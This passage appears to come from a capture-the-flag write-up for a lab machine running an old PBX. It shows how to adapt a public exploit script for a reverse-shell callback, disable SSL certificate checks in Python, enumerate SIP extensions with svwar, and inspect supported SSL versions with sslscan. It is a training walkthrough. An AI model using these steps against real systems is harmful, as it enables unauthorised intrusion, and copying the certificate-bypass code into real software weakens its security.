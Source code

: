   1. Update my IP and port to get a callback.
  2. Update to ignore bad ssl certs
  3. Find the extension

The first is easy. The second took some Googling, but I found I could create
an SSL context that said to ignore the certificate errors, and pass it into
the request like this:

    
    
    ctx = ssl.create_default_context()
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    
    urllib.urlopen(url, context=ctx) 
    

The last one is an issue specific to the instance of the PBX. I need an open
extension, so I’ll use `svwar` to look for one:

    
    
    root@kali# svwar -m INVITE -e100-999 10.10.10.7
    WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
    | Extension | Authentication |
    ------------------------------
    | 233       | reqauth        |
    

I’ll add that to the script where it defines `extension`.

In 2018, I could run this script, and get a shell. In 2021, it throws more
errors:

    
    
    root@kali$ python2 18650.py
    ...[snip]...
    IOError: [Errno socket error] [SSL: UNSUPPORTED_PROTOCOL] unsupported protocol (_ssl.c:727)
    

This server is so old it’s using a protocol for SSL below what my machine will
allow. `sslscan` will show the versions that Beep is supporting:

    
    
    root@kali$ sslscan 10.10.10.7
    Version: 2.0.6-static
    OpenSSL 1.1.1i-dev  xx XXX xxxx
    
    Connected to 10.10.10.7
    
    Testing SSL server 10.10.10.7 on port 443 using SNI name 10.10.10.7
                                                   
      SSL/TLS Protocols:                           
    SSLv2     disabled                             
    SSLv3     enabled                              
    TLSv1.0   enabled                              
    TLSv1.1   disabled                             
    TLSv1.2   disabled                             
    TLSv1.3   disabled
    